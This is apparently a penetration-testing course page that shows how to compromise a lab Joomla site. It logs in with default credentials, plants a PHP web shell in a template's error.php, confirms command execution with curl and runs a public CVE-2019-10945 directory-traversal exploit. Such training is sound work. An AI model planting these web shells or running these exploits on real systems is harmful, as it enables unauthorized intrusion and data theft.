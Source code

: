 # Attacking Joomla

We now know that we are dealing with a Joomla e-commerce site. If we can gain access, we may be able to land in the client's internal environment and begin enumerating the internal domain environment. Like WordPress and Drupal, Joomla has had its fair share of vulnerabilities against the core application and vulnerable extensions. Furthermore, like the others, it is possible to gain remote code execution if we can log in to the admin backend.

***

## Abusing Built-In Functionality

During the Joomla enumeration phase and the general research hunting for company data, we may come across leaked credentials that we can use for our purposes. Using the credentials that we obtained in the examples from the last section, `admin:admin`, let's log in to the target backend at `http://dev.inlanefreight.local/administrator`. Once logged in, we can see many options available to us. For our purposes, we would like to add a snippet of PHP code to gain RCE. We can do this by customizing a template.

{% hint style="danger" %}
If you receive an error stating "An error has occurred. Call to a member function format() on null" after logging in, navigate to "http://dev.inlanefreight.local/administrator/index.php?option=com\_plugins" and disable the "Quick Icon - PHP Version Check" plugin. This will allow the control panel to display properly.
{% endhint %}

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption><p>http://dev.inlanefreight.local/administrator/index.php</p></figcaption></figure>

From here, we can click on `Templates` on the bottom left under `Configuration` to pull up the templates menu.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://dev.inlanefreight.local/administrator/index.php?option=com_templates</p></figcaption></figure>

Next, we can click on a template name. Let's choose `protostar` under the `Template` column header. This will bring us to the `Templates: Customise` page.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://dev.inlanefreight.local/administrator/index.php?option=com_templates&#x26;view=template&#x26;id=506</p></figcaption></figure>

Finally, we can click on a page to pull up the page source. It is a good idea to get in the habit of using non-standard file names and parameters for our web shells to not make them easily accessible to a "drive-by" attacker during the assessment. We can also password protect and even limit access down to our source IP address. Also, we must always remember to clean up web shells as soon as we are done with them but still include the file name, file hash, and location in our final report to the client.

Let's choose the `error.php` page. We'll add a PHP one-liner to gain code execution as follows.

```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://dev.inlanefreight.local/administrator/index.php?option=com_templates&#x26;view=template&#x26;id=506&#x26;file=L2Vycm9yLnBocA%3D%3D</p></figcaption></figure>

Once this is in, click on `Save & Close` at the top and confirm code execution using `cURL`.

```shell-session
$ curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

From here, we can upgrade to an interactive reverse shell and begin looking for local privilege escalation vectors or focus on lateral movement within the corporate network. We should be sure, once again, to note down this change for our report appendices and make every effort to remove the PHP snippet from the `error.php` page.

***

## Leveraging Known Vulnerabilities

At the time of writing, there have been [426](https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html) Joomla-related vulnerabilities that received CVEs. However, just because a vulnerability was disclosed and received a CVE does not mean that it is exploitable or a working public PoC exploit is available. Like with WordPress, critical vulnerabilities (such as those remote code execution) that affect Joomla core are rare. Searching a site such as `exploit-db` shows over 1,400 entries for Joomla, with the vast majority being for Joomla extensions.

Let's dig into a Joomla core vulnerability that affects version `3.9.4`, which our target `http://dev.inlanefreight.local/` was found to be running during our enumeration. Checking the Joomla [downloads](https://www.joomla.org/announcements/release-news/5761-joomla-3-9-4-release.html) page, we can see that `3.9.4` was released in March of 2019. Though it is out of date as we are on Joomla `4.0.3` as of September 2021, it is entirely possible to run into this version during an assessment, especially against a large enterprise that may not maintain a proper application inventory and is unaware of its existence.

Researching a bit, we find that this version of Joomla is likely vulnerable to [CVE-2019-10945](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945) which is a directory traversal and authenticated file deletion vulnerability. We can use [this](https://www.exploit-db.com/exploits/46710) exploit script to leverage the vulnerability and list the contents of the webroot and other directories. The python3 version of this same script can be found [here](https://github.com/dpgg101/CVE-2019-10945). We can also use it to delete files (not recommended). This could lead to access to sensitive files such as a configuration file or script holding credentials if we can then access it via the application URL. An attacker could also cause damage by deleting necessary files if the webserver user has the proper permissions.

We can run the script by specifying the `--url`, `--username`, `--password`, and `--dir` flags. As pentesters, this would only be useful to us if the admin login portal is not accessible from the outside since, armed with admin creds, we can gain remote code execution, as we saw above.

```shell-session
$ python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
 
# Exploit Title: Joomla Core (1.5.0 through 3.9.4) - Directory Traversal && Authenticated Arbitrary File Deletion
# Web Site: Haboob.sa
# Email: research@haboob.sa
# Versions: Joomla 1.5.0 through Joomla 3.9.4
# https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945    
 _    _          ____   ____   ____  ____  
| |  | |   /\   |  _ \ / __ \ / __ \|  _ \ 
| |__| |  /  \  | |_) | |  | | |  | | |_) |
|  __  | / /\ \ |  _ <| |  | | |  | |  _ < 
| |  | |/ ____ \| |_) | |__| | |__| | |_) |
|_|  |_/_/    \_\____/ \____/ \____/|____/ 
                                                                       


administrator
bin
cache
cli
components
images
includes
language
layouts
libraries
media
modules
plugins
templates
tmp
LICENSE.txt
README.txt
configuration.php
htaccess.txt
index.php
robots.txt
web.config.txt
```

***

## Moving On

Next, let's take a look at Drupal, which, while it holds a much smaller share of the CMS market, is still used by companies worldwide.
